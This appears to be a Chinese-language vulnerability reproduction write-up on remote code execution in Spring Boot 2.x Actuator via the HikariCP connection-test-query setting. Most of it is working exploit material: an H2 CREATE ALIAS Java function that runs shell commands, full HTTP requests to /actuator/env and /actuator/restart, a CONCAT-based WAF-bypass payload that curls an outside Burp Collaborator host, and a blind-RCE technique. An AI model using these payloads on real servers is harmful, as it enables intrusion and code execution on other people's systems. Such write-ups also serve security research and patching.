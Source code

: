Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞
=========================================================

一、漏洞简介
------------

Spring Boot
2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是`spring.datasource.hikari.connection-test-query`。这个变量与HikariCP中的`connectionTestQuery`配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，`spring.datasource.hikari.connection-test-query`的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

漏洞环境

> https://github.com/ianxtianxt/springboot\_actuator

### H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring
Boot集成，仅仅需要如下的一个dependency。

    <dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <scope>runtime</scope>
    </dependency>

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE
ALIAS创建一个java函数然后调用它，示例如下:

    CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
    CALL GET_SYSTEM_PROPERTY('java.class.path');

仿照这个，创建命令执行的java函数可以如下:

    String shellexec(String cmd) throws java.io.IOException { 
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
        if (s.hasNext()) {
            return s.next();
        } throw new IllegalArgumentException(); 
    }

那么RCE所需的SQL语句即:

    CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
    CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');

与1.x类似，在端点`/actuator/env`通过POST方法进行环境变量的赋值。payload为

    POST /actuator/env HTTP/1.1

    content-type: application/json

    {"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点`/actuator/restart`发送POST请求，即可重启应用出发新的数据库连接。请求如下

    POST /actuator/restart HTTP/1.1

    content-type: application/json

    {}

命令执行的结果:

![](./.resource/SpringBootActuatorhikari配置不当导致的远程命令执行漏洞/media/rId25.png)

### 针对WAFs

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成

    CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
    CALL EXEC('curl  http://x.burpcollaborator.net');

### 有限的执行上下文的命令注入

`spring.datasource.hikari.connection-test-query`是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind
RCE。

参考链接
--------

> https://xz.aliyun.com/t/7480\#toc-3
